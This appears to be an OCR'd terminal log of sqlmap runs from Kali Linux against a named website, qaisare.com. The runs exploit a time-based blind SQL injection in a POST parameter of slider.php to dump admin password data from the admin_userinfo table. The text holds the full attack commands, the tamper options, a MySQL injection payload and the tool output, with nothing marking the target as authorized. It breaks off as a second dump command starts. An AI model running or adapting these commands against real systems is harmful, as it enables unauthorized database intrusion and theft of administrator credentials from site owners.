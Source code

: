 [18:58:28] [ERROR] user aborted

[*] shutting down at 18:58:28

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C user_pwd --dump --time-sec 20
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:58:44

[18:58:44] [INFO] loading tamper module 'between'
[18:58:45] [INFO] resuming back-end DBMS 'mysql' 
[18:58:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(20000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:58:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:58:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:58:45] [INFO] fetching entries of column(s) 'user_pwd' for table 'admin_userinfo' in database 'qaisare_com'
[18:58:45] [INFO] fetching number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:58:45] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:58:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:58:53] [WARNING] unable to retrieve the number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:58:53] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:58:53

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
